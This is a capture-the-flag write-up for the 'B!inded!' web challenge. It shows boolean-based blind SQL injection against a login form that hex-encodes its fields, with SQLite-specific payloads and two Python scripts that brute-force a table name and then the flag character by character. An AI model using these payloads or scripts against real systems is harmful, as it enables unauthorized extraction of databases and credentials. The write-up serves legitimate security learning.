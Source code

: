 # B!inded! (Web Challenge)
### First, it is my first time writing writeups so it will be nice if you have negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag, Format: EGCERT{flag}
Points : 200
```

## Enumeration 
 
once I opened the challenge I found this login page

![loginpage](../assets/ieee/B!inded!/login-page.jpeg)

And we have a hint in the description that tells us we don’t need to fuzz so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , but i got a response ```wrong password``` so now i know that we have admin username . 

i tried again with ```aboelnour``` and ```pass``` and i got a response ```user not found```

so i fired up my burp and send ```a``` in username and ```a``` in password

And I have noticed that username and password are converted to hex and separated by four zeros 
for example a = 61 in hex so our request will be like this 

![request](../assets/ieee/B!inded!/request.png)


From the challenge name, I got that it might be blind sqli 

so I typed ```aboelnour"``` in username and ```0``` in password , i have got an internal server error.
then I typed ```aboelnour" or 1=1 -- -``` and B00M I have got response ```Wrong Password```  , to make sure I tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

I tried ```admin" select version()-- -``` , but I got an internal server error 

so I tried ```admin"select sqlite_version()-- -``` , and the response was ```Wrong password``` , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all, we have SQL Server SUBSTRING() function , this function used to extract some characters from a string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have also SQL LIKE Operator : you can check it on "[https://www.w3schools.com/sql/sql_like.asp](https://www.w3schools.com/sql/sql_like.asp)"


So, if we have table_name = users and column_name = user, we'd enum users with a query like the below : 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then I searched about how to extract tables from SQLitedb and found these payloads in payloadsALLTheThings on GitHub : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version)


And I have got this query to Extract table names :

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl string in any position at values :

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

I tried it and I have got User not found so the first char not f 

So I have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so I have written a python script to enum table name  

----

## Exploit code 

First, we need to convert our username to hex and concatenate it with 000061 , 61 is the password
Second, we need to bruteforce all chars with check if "Wrong" in response text that is meaning we got the right character and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			#print(x.text)
			#print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i have got table name 
```
Flag table name : Flag_jnk249
```

So now we have the table name 

before bruteforce column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
And I got ```Wrong password``` so our column name is ```flag``` , I have avoided column bruteforcing :)

I modified my previous script to get the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			#print(x.text)
			#print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : [https://www.linkedin.com/in/maboelnour12/](https://www.linkedin.com/in/maboelnour12/)
#### Facebook : [https://www.facebook.com/maboelnour12](https://www.facebook.com/maboelnour12)
